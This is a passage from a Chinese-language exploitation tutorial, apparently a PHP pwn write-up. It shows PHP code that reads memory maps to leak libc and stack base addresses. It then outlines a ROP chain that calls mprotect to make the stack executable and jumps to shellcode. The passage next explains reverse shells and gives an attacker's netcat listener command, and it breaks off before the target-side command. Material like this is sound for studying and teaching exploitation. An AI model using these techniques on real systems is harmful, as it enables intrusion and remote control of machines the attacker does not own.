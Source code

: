 ```php
$libcBaseAddresses = getBaseAddress($content, $libcPattern);

if ($libcBaseAddresses) {
    echo "libc base addresses:\n";
    foreach ($libcBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No libc base address found.\n";
}

// 匹配 stack 的基地址
$stackPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+rw-p\\s+.*?\\s+\\[stack\\]$/m';
$stackBaseAddresses = getBaseAddress($content, $stackPattern);

if ($stackBaseAddresses) {
    echo "stack base address:\n";
    foreach ($stackBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No stack base address found.\n";
}
?>
```

溢出mprotect改栈权限
--------------

溢出可以使用rop链构造调用mprotect函数来给stack执行权限，然后找一个jmp rsp来直接执行shellcode

反弹shell
-------

工作原理：

1. 攻击者在自己的机器上监听一个特定端口
2. 在目标机器上执行一个命令，使其连接到攻击者的机器
3. 连接建立后，目标机器的shell被重定向到这个连接

举例说明：

1. 使用 netcat (nc) 的例子：

攻击者机器（IP: 10.0.0.1）：

```php
nc -lvp 4444
```

这会在4444端口上监听incoming连接。

目标机器：
